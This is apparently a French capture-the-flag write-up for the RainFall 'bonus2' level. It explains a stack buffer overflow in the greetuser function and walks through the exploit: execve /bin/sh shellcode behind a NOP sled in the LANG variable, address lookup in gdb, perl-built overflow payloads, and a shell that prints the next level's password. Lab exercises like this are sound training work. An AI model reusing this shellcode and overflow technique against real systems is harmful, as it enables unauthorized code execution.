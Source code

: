# bonus2

Le main copie notre premier argument dans `dest` puis notre 2ème argument à l'index `40` de `dest`

Ensuite, le programme check la valeur de notre variable d'environement `LANG` pour définir la variable `langage`, puis appelle `greetuser` avec `v4` en argument (qui contient une copie de `dest`)

`greetuser` contient également un `char[80] dest` dans lequel il va commencer par copier un message de bienvenue en fonction du langage

Il va ensuite concaténer `src` (le string passé en paramètre) à `dest` et afficher le tout avec `puts`.

L'idée ici va être de mettre un shellcode dans une variable d'environement puis d'overflow le `dest` de `greetuser` avec l'adresse de cette variable pour lui faire exécuter le shellcode.

Notre shellcode sera dans notre variable d'environement `LANG` à la suite de la langue choisie, on va utiliser `nl` car c'est celui qui nous ajoutera le plus de caractères dans notre buffer ("Goedemiddag! " = 13 charactères)

L'adresse de notre variable sera récupérée avec gdb, vu que l'environement de gdb diffère légèrement de notre environement de base, on va ajouter un grand nombre de NOP avant le shellcode pour être sur de taper dessus

On va commencer par donner une valeur de test à notre variable lang pour déterminer son adresse facilement

```bash
LANG="testtesttest"
gdb ./bonus2"

(gdb) x/s *((char **)environ)
0xbffff91d:	 "SHELL=/bin/bash"
(gdb) x/20s *((char **)environ)
0xbffff91d:	 "SHELL=/bin/bash"
0xbffff92d:	 "TERM=xterm-256color"
0xbffff941:	 "SSH_CLIENT=10.0.2.2 59618 4242"
0xbffff960:	 "SSH_TTY=/dev/pts/0"
0xbffff973:	 "USER=bonus2"
0xbffff97f:	 "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
0xbffffa47:	 ":*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.d"...
0xbffffb0f:	 "eb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35"...
0xbffffbd7:	 ":*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mk"...
0xbffffc9f:	 "v=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35"...
0xbffffd67:	 ":*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00"...
---Type <return> to continue, or q <return> to quit---
0xbffffe2f:	 ";36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:"
0xbffffea0:	 "COLUMNS=80"
0xbffffeab:	 "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
0xbffffef8:	 "MAIL=/var/mail/bonus2"
0xbfffff0e:	 "_=/usr/bin/gdb"
0xbfffff1d:	 "PWD=/home/user/bonus2"
0xbfffff33:	 "LANG=testtesttest"
0xbfffff3d:	 "LINES=24"
0xbfffff46:	 "HOME=/home/user/bonus2"
```

On trouve notre variable à l'adresse `0xbfffff33`



On va à présent commencer à fabriquer noter payload en remplissant le `dest` du main, d'abord la première partie avec 40 lettres:

```bash
echo $(perl -e 'print "A"x40;') > /tmp/payload1
```

puis la seconde avec 23 lettre + l'adresse de notre variable d'environement (= 27 bytes, + les 13 de notre message de bienvenue = 40 bytes, ce qui complète notre offset de 80)

```bash
echo $(perl -e 'print "B"x23 . "\x33\xff\xff\xbf";') > /tmp/payload2
```

On finir par donner la bonne valeur à noter variable `LANG` avec le langage `nl` suivit de beaucoup de NOP puis de notre shellcode

```bash
LANG=$(perl -e 'print "nl" . "\x90"x10000 . "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";')
```

Puis on n'a plus qu'à lancer le programme avec notre payload complet 

```bash
bonus2@RainFall:~$ ./bonus2 $(cat /tmp/payload1) $(cat /tmp/payload2)
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBp���
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
